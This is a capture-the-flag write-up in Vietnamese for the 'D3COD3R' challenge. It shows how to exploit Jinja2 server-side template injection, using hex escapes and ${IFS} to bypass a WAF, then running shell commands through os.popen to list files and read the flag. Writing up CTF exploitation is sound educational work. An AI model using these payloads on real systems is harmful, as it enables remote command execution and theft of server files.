





# D3COD3R

## Background

---

https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#jinja2-python/

https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/

## SSTI discovery

---

- Chúng ta phát hiện được rằng chương trình có lỗ hỏng SSTI khi truyền chuỗi Base64 `e3snYScudXBwZXJ9fQ==` ( {{'a'.upper}} ) vào Decoder field của chương trình.



## SSTI exploit and bypass WAF

---

- Đầu tiên, Chúng ta sử dụng lệnh sau để hiển thị tất cả các class.

```
{{()|attr('__class__')|attr('__base__')|attr('__subclasses__')()}}
```



- Đến đây, chúng ta có thể tìm được ví trí của class mà chúng ta đang cần. Class đó là `os._wrap_close` nằm ở vị trí 132.

```
{{()|attr('__class__')|attr('__base__')|attr('__subclasses__')()|attr('__\x67etitem__')(132)}}
```



- Tiếp theo, ta sử dụng lệnh dưới đây để liệt kê tất cả các file có trong đường dẫn hiện tại.

```
{{()|attr('__class__')|attr('__base__')|attr('__subclasses__')()|attr('__\x67etitem__')(132)|attr('__init__')|attr('__\x67lobals__')|attr('__\x67etitem__')('__builtins__')|attr('__\x67etitem__')('__import__')('os')|attr('popen')('ls${IFS}\x2dla')|attr('read')()}}
```



- Ta phát hiện có file flag. Cuối cùng, ta sử dụng lệnh sau để đọc được file flag trên.

```
{{()|attr('__class__')|attr('__base__')|attr('__subclasses__')()|attr('__\x67etitem__')(132)|attr('__init__')|attr('__\x67lobals__')|attr('__\x67etitem__')('__builtins__')|attr('__\x67etitem__')('__import__')('os')|attr('popen')('cat${IFS}fla\x67')|attr('read')()}}
```



---

> flag : `Wanna.One{we_wish_u_a_merry_ch1rsmas:3}`

---
